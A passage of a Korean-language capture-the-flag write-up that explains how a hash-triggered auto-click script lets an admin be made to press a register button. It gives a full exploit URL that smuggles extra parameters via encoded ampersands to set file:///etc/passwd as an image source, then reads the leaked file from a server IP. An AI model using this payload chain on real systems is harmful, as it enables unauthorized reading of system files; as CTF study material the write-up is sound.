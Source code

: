 ### assets/auto_game.js

```javascript
$(() => {
  try {
    let id = location.hash.substr(1);
    let x = $(`#${id}`);
    if (x) {
      x.click();
    }
  } catch {
    console.log("~");
  }
});
```

{: file="assets/auto_game.js" }

바로 특정 ID에 대한 # hash tag 가 주어지면 해당 요소를 자동으로 클릭해주는 기능이었습니다.

이를 이용하면 관리자가 register 버튼을 누르게 할 수 있을 것 같았습니다.

## Exploit

결과적으로 최종 페이로드는 다음과 같아집니다.

```
http://localhost/admin/reg_slot.php?headers[CONTENT-TYPE]=application/json&name=asdf%26slotid=asdf%26reel_blur=file:///etc/passwd%26reel=asdf#register
```

그리고 asdf 의 sha1 해시값을 구해서 assets 하위에 있는 이미지 파일에 접근해보면 다음과 같이 /etc/passwd 파일의 내용을 확인해볼 수 있습니다.

```
http://3.36.92.61/assets/slot/asdf-asdf/3da541559918a808c2402bba5012f6c60b27661c-reel_blur.jpg
```

![etc_passwd](/assets/img/buffalo-secret-writeup-1.png){: .shadow }
_/etc/passwd_
